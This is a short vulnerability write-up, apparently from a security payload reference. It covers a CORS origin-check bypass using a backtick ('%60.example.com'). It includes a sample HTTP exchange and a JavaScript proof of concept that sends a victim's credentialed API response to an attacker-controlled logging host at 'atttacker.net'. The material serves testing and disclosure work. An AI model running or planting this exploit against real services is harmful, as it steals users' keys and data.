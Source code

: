 # Backtick Bypass

## Description
The origin verification is flawed and can be bypassed using a backtick (`).

**Severity**: High

## Exploit 
Set the origin header to `%60.example.com`

### Vulnerable Implementation
```http
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://%60.example.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://%60.example.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

### Exploit
This exploit requires that the respective JS script is hosted at `%60.example.com`
```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```
